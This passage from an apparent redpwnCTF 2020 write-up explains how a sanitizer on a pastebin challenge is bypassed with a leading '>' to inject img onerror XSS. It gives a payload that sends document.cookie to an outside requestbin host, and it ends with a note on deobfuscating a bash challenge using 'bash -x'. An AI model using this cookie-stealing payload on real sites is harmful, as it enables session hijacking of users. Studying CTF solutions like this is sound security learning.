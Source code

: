 So that one "couldn't" add something like:
```
<img src=x onerror="javascript:alert('XSS')"></img>
```

However, if we start the text with a closing bracket, then when it gets to the opening bracket everything will be "balanced". For example:
```
><img src=x onerror="javascript:alert('XSS')"></img>
```

We see that in fact we are able to sort out the sanitization. So we can build a more appropriate onerror callback so that it can send the cookies to a sink managed by us. For example:

```
><img src=x onerror="javascript:document.location='https://enoghoklyh418.x.pipedream.net/?c='+document.cookie"></img>
```

We can then generate the page, obtain the link that will look something like:
```
https://static-pastebin.2020.redpwnc.tf/paste/#Ij48aW1nIHNyYz14IG9uZXJyb3I9ImphdmFzY3JpcHQ6ZG9jdW1lbnQubG9jYXRpb249J2h0dHBzOi8vZW5vZ2hva2x5aDQxOC54LnBpcGVkcmVhbS5uZXQvP2M9Jytkb2N1bWVudC5jb29raWUiPjwvaW1nPg==
```

And place it in the admin page.

After a while, we'll see the incoming request to our controlled sink, with the cookies of the site containing the flag!

```
/?c=flag=flag{54n1t1z4t10n_k1nd4_h4rd}
```

# misc

## uglybash

### Flag
```
flag{us3_zsh,_dummy}
```

### Analysis & Solution
If we open the [script](https://github.com/s-rodriguez/ctfs/ctfs/redpwn2020/misc/ugly-bash/cmd.sh), it's basically obfuscated code, so it'll be impossible to simply find the flag.

However, we can run the script in `DEBUG` mode with `-x` and it will print every line evaluation, along with the flag!

```
bash -x cmd.sh

...
+++ for VS2R4y in $[  (-(-(3${*~~}...
+++ printf %s y
+++ for VS2R4y in $[  (-(-(3${*~~}...
+++ printf %s '}'
```
